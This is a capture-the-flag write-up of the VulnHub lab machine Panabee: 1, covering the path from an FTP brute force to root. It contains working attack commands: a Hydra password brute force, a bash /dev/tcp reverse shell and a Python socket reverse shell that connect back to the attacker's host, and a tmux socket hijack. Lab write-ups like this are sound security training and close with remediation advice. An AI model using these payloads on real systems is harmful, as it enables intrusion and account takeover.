



# Panabee: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.0.165 (host-only) |
| **Attacker IP** | 192.168.0.147 |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | `/root/proof.txt` |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/panabee-1,502/) |

## Attack Summary

nmap → SMB (note.txt → user goper) → Hydra FTP brute (goper:spiderman) → FTP upload (backup.sh reverse shell) → cron executes as goper → sudo -u jenny (status.py) → pspy64 (tmux root session) → tmux socket attach → root

## Methodology

1. Network scan — FTP, SSH, SMTP, HTTP, SMB
2. SMB enumeration — username and backup hint
3. FTP brute force
4. Malicious script upload via FTP → shell as goper
5. sudo chain goper → jenny → root via tmux

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.0.0/24
nmap -p- -A 192.168.0.165
```

Open ports: 21 (FTP), 22 (SSH), 25 (SMTP), 80 (HTTP), 139/445 (SMB).


---

## Step 2: SMB Enumeration

```bash
smbclient -L \\\\192.168.0.165
smbclient \\\\192.168.0.165\\note
ls
get note.txt
exit
cat note.txt
```

`note.txt` is addressed to user **goper**: states the server backs up files from goper's home directory. This reveals a username.


---

## Step 3: FTP Brute Force

```bash
hydra -l goper -P /usr/share/wordlists/rockyou.txt 192.168.0.165 ftp
```

Credentials: **goper:spiderman**

---

## Step 4: FTP Upload — Reverse Shell as goper

Browse the FTP server. A `status.py` script pings hosts and writes results to jenny's home directory. The backup job executes any `.sh` file in goper's home directory.

Create `backup.sh`:

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.0.147/8080 0>&1
```

Upload via FTP:

```bash
ftp 192.168.0.165
# goper:spiderman
put backup.sh
ls
bye
```

Start listener and wait for cron:

```bash
nc -lvp 8080
```

Shell arrives as **goper**.



---

## Step 5: Lateral Movement — goper → jenny

```bash
sudo -l
# (jenny) NOPASSWD: /usr/bin/python3 /home/goper/status.py
```

Replace `status.py` with a Python reverse shell:

```python
import socket,subprocess,os
s=socket.socket()
s.connect(("192.168.0.147",8888))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
```

Upload via FTP:

```bash
ftp 192.168.0.165
put status.py
bye
```

Start second listener:

```bash
nc -lvp 8888
```

Trigger:

```bash
sudo -u jenny /usr/bin/python3 /home/goper/status.py
```

Shell arrives as **jenny**.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



---

## Step 6: Privilege Escalation — tmux Socket Hijack

Use pspy64 to monitor running processes:

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64 -O /tmp/pspy64
chmod +x /tmp/pspy64
/tmp/pspy64
```

Observe: root runs a tmux server with a socket at `/opt/.tmux-0/sockets/default`.

```bash
export TERM=xterm
tmux -S /opt/.tmux-0/sockets/default attach
```

Root tmux session attached — root shell.

```bash
id
# uid=0(root)
cd /root
cat proof.txt
```



---

## Lessons Learned

1. **SMB shares exposing usernames** are a common initial foothold — enumerate shares before anything else
2. **World-executable backup scripts** in user home directories allow arbitrary code execution as that user
3. **sudo on writable scripts** (`status.py` in goper's home, run as jenny) is a chained privilege escalation
4. **tmux socket accessible to other users** allows session hijacking — tmux sockets must be restricted by permission

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| SMB share exposing user info | Review share contents; restrict read access |
| Weak FTP password | Use SSH keys; enforce strong passwords |
| Backup job executing user files | Backup scripts should be root-owned, not user-writable |
| tmux socket world-accessible | Set restrictive permissions: `chmod 700` on socket directory |
